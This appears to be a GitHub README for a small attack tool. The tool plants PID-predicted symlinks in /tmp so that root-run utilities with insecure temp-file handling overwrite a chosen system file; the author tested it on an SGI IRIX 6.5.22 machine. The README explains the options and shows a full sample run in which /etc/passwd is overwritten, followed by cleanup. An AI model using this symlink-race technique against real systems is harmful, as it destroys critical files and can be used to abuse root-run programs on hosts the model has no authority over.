 I've been looking around on my SGI Indy running IRIX 6.5.22 checking system utilities for the use of /tmp.  I've noticed some scripts
using $$ to generate a unique file name in /tmp. I wrote this simple tool to generate links in /tmp in an attempt to clobber
files if the root user were to run any of the vulnerable utilities.

This code creates an x number of symlinks using the pid in the filename in order to clobber system files by linking to them when programs use /tmp in an insecure manner. This isn't really a problem on modern day unixes.  I've developed and tested it on an SGI Indy R5000 running IRIX 6.5.22.  After running it monitors the target file's modification time to determine if the exploitation succeeded. 
Also,  you can specify with a # sign where the PID appears in the file as some /tmp files the pid maybe between other characters and not always on the end of a file.  

e.g.
-f /tmp/cat_man#.log would be /tmp/cat_man12314.log etc..
```
larry@mathom:~/code/symlinker$ ./symlink -n 10 -f to_dos# -t /etc/passwd
Starting from our own process id: 259857
Symlinking /tmp/to_dos259857->/etc/passwd
Symlinking /tmp/to_dos259858->/etc/passwd
Symlinking /tmp/to_dos259859->/etc/passwd
Symlinking /tmp/to_dos259860->/etc/passwd
Symlinking /tmp/to_dos259861->/etc/passwd
Symlinking /tmp/to_dos259862->/etc/passwd
Symlinking /tmp/to_dos259863->/etc/passwd
Symlinking /tmp/to_dos259864->/etc/passwd
Symlinking /tmp/to_dos259865->/etc/passwd
Symlinking /tmp/to_dos259866->/etc/passwd
Symlinking /tmp/to_dos259867->/etc/passwd
Waiting on a write to one of our predicted links in /tmp or pid to grow past the links we created.
[+] The target file /etc/passwd has been over written!
[+] Modification time changed from Fri Oct 25 13:31:44 2019 to Sun Oct 27 02:39:16 2019

Cleaning up....
Unlinking -> /tmp/to_dos259867
Unlinking -> /tmp/to_dos259866
Unlinking -> /tmp/to_dos259865
Unlinking -> /tmp/to_dos259864
Unlinking -> /tmp/to_dos259863
Unlinking -> /tmp/to_dos259862
Unlinking -> /tmp/to_dos259861
Unlinking -> /tmp/to_dos259860
Unlinking -> /tmp/to_dos259859
Unlinking -> /tmp/to_dos259858
Unlinking -> /tmp/to_dos259857
```
